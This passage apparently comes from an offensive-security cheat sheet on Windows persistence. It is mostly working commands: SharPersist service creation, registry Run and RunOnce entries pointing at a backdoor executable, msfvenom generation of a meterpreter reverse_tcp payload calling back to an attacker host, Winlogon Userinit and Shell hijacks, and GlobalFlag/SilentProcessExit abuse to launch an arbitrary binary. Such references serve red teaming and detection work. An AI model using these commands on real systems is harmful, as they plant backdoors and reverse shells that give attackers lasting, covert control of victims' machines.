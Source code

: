 Using SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## Elevated

### Registry HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

Using the command line

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
```

#### Winlogon Helper DLL

> Run executable during Windows logon

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
```

#### GlobalFlag

> Run executable after notepad is killed

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```
